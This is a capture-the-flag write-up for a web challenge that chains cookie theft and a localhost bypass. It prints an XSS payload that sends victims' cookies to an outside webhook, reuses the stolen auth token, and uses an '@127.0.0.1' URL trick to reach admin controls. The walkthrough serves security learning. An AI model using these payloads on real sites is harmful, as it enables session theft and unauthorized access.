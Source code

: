 # Approach
- We were prompted with a chat box with admin, which hints to possible XSS vulnerability. After trying the following
```javascript
<img src =asdf onerror="$.get('https://webhook.site/****'+ bota(document.cookie))">
```
- and upon inspecting the HTTP request sent to the request bin, since I convert the string into base64 so that I wouldnt get any escaped string until later inspection.
- The Base64 encoded cookie I got was `ZmxhZz1DVEZ7M21icjRjM190aGVfYzAwazFlX3cwcjFkX29yZDNyfTsgYXV0aD1UVXRiOVBQQTljWWtmY1ZRV1l6eHk0WGJ0eUwzVk5Leg=%3D`
- We know that `%` is the escape character and the two characters following it are the hexadecimal numbering of the ASCII character. `%3D` represents a `=`, and we know that all base64 encoding ends with 1 or 2 `=` (Used as an indication of termination and for padding since base64 works in a multiple of 3 characters)
- After decoding it, we see the first flag and an auth token
# First Flag
CTF{3mbr4c3_the_c00k1e_w0r1d_ord3r} auth=TUtb9PPA9cYkfcVQWYzxy4XbtyL3VNKz

# Second Flag Apporach
- After we got the auth token from the decoded cookie, I set my own browser with that cookie with `document.cookie="auth=TUtb9PPA9cYkfcVQWYzxy4XbtyL3VNKz"`.
- After refreshing the page, the admin tab showed up. However, the admin page only shows that in order to access it, we need to be in the local host `127.0.0.1`. 
- In order to access the admin control via admin's local host, I went back to the home page that was fetching the video live stream and replaced the livestream url with 
`http://cwo-xss.web.ctfcompetition.com/watch?livestream=http://cwo-xss.web.ctfcompetition.com@127.0.0.1/admin/controls` because the server is looking for localhost `127.0.0.1` in the host name and `http://cwo-xss.web.ctfcompetition.com` in the domain.

# Second Flag
CTF{WhatIsThisCookieFriendSpaceBookPlusAllAccessRedPremiumThingLooksYummy}

